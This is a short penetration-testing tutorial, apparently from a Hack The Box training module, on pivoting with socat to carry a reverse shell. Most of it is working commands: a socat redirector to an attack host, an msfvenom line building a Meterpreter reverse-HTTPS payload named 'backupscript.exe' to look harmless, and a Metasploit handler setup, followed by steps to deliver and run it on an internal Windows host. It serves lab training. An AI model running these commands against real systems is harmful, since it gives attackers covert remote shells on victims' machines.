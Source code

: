 It acts as a redirector that can listen on one host and port and forward that data to another IP address and port.
# socat Redirection with a Reverse Shell
1. Starting Socat Listener on Ubuntu Pivot Host
## Ubuntu Pivot Host
```
ubuntu@Webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80
```
Socat will listen on localhost on port 8080 and forward all the traffic to port 80 on our attack host (10.10.14.18). Once our redirector is configured, we can create a payload that will connect back to our redirector, which is running on our Ubuntu server.
2. Creating the Windows Payload
```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=8080
```
3. Transfer to Ubuntu Pivot Host (using File Transfers methods)
4. Transfer from Ubuntu host to Windows Host on internal network
5. Starting MSF Console on Attack Host
```
w1j0y@htb[/htb]$ sudo msfconsole
```
```
msf6 > use exploit/multi/handler
```
```
set payload windows/x64/meterpreter/reverse_https
```
```
set lhost 0.0.0.0
```
```
set lport 80
```
```
run
```
6. Execute backupscript.exe on Windows Host
7. Network connection back to our listening port 80
8. Meterpreter shell
